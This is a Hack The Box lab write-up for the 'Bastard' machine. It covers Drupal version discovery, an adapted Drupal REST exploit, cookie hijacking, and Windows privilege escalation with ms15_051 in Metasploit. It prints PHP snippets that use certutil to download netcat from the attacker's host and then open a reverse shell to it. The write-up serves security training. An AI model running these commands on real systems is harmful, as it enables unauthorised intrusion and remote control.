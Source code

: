 ```yaml
---
layout: post
title: "HTB Bastard: Walkthrough"
date: 2024-12-03 11:00:00 +0000
categories: [HTB]
tags: [HTB, Drupal, CVE]
image:
    path: https://raw.githubusercontent.com/partyh4t/partyh4t.github.io/refs/heads/main/assets/posts/Bastard/bastard.png
---
```


![image](https://github.com/partyh4t/Write-ups/assets/114421293/3061d92f-1f6d-4189-a9e4-e510b14e004c)

- We're first met with a web application running `Drupal` that leaks a useful directory through the `robots.txt` file.
- The file contains a version# for the current Drupal installation that is running on the web server.
- We're then able to leverage that version number to exploit a CVE to gain credentials and eventually RCE.
- Finally, once the machine was compromised, we exploited `ms15_051` to gain Administrative Privileges.

## 0) Machine Overview

1. [Scans](#1-scans)
2. [Web Enumeration](#2-web-enumeration)
3. [Exploitation](#3-exploitation)
4. [Privilege Escalation](#4-privilege-escalation)

## 1) Scans
![image](https://github.com/partyh4t/Write-ups/assets/114421293/900fd3f7-bc43-414b-a7d1-1aa87ec1381f)

## 2) Web Enumeration
Heading to the webpage, we're met with Drupal
![image](https://github.com/partyh4t/Write-ups/assets/114421293/df3dfa47-769b-401c-9c4e-9651018415bd)


With some testing, and checking the robots.txt, we notice:

![image](https://github.com/partyh4t/Write-ups/assets/114421293/22d60b3d-fb7e-4e66-bee5-a207dfdc103f)


As we can see, we now know the exact version number of the CMS being used.
![image](https://github.com/partyh4t/Write-ups/assets/114421293/cbecd508-9201-4196-9d28-40c0b13ae57f)

## 3) Exploitation
With some research "Drupal 7.54 exploit" we instantly are met with:
![image](https://github.com/partyh4t/Write-ups/assets/114421293/40c9887d-fbc0-418f-8cd6-7f422b59ff2f)


We used the exploit, but we had to alter some of the code:
Originally I only changed the url to the proper IP, and as we can see, the endpoint_path is set to /rest-endpoint, but the exploit doesn't work.
![image](https://github.com/partyh4t/Write-ups/assets/114421293/acb9b252-ca1b-40f5-9e2c-87d60107bcc0)


So if we try to access that endpoint ourselves, it turns out it doesnt exist for us.

![image](https://github.com/partyh4t/Write-ups/assets/114421293/735785d0-003e-4a3d-8f1c-9c81b50a0bbc)


What if we try just /rest? Because if we search up that error with drupal, we can see some stackoverflow questions that show that /rest is also a possible endpoint.

With that fixed:

![image](https://github.com/partyh4t/Write-ups/assets/114421293/39aa305d-3e55-44c1-9176-a1fbad85525b)


Now, the exploit is creating a .php file within the server, and the exploit code is retrieving credentials:
![image](https://github.com/partyh4t/Write-ups/assets/114421293/0103ff84-1d65-4b26-aa10-de9d330cb625)


Also the session information:

![image](https://github.com/partyh4t/Write-ups/assets/114421293/38e59117-7a55-4f2c-bdb2-fbd88c95cf6a)


So we can either log into the admin dashboard and investigate, or we can also change the data to maybe give us a shell of some sort, it'd have to be in php though.

Lets first try to add some of those cookies into our browser:
![image](https://github.com/partyh4t/Write-ups/assets/114421293/6ea28526-0a5b-4f0a-bfcf-23d67958be05)


Here, we put the session names value into the name section, and the id into the value:
![image](https://github.com/partyh4t/Write-ups/assets/114421293/a2f6a602-467e-4020-b6ad-035a5220eb99)


I was having trouble trying to get a rev shell with the exploit code, so we'll have to do it manually.

Going to be following this:
[https://book.hacktricks.xyz/network-services-pentesting/pentesting-web/drupal#rce](https://book.hacktricks.xyz/network-services-pentesting/pentesting-web/drupal#rce)

Note: this will only work for versions of Drupal before V8.


So, after a lot of research, and some PHP errors, I was able to use this code on the new page within the "Add-content" section:
```
<?php
$command = "certutil.exe -urlcache -f http://10.10.14.15:8080/nc64.exe nc64.exe";
$output = shell_exec($command);
echo $output;
?>
```

And then to execute it: (Turns out [shell_exec](https://stackoverflow.com/questions/11209509/using-php-to-execute-cmd-commands) is exactly what I needed in this case)
```
<?php
shell_exec('nc64.exe -e cmd 10.10.14.15 1234')
?>
```

## 4) Privilege Escalation
Now that we had access to the machine, i uploaded a meterpreter executable so i can use metasploit.

Once that was done, i ran local_exploit_suggester on the target, and was given multiple exploits that the target seemed to be vulnerable to.

I tried multiple, however the one that worked was [ms15_051](https://learn.microsoft.com/en-us/security-updates/securitybulletins/2015/ms15-051). Using the metasploit module for it, i just had to make sure the payload was set to windows/x64/meterpreter/reverse_tcp, stressing on the x64 as without it, it wouldnt work. Also made sure the target was set to Windows x64, and the original meterpreter session was migrated to an x64 process.

Pwned.

---
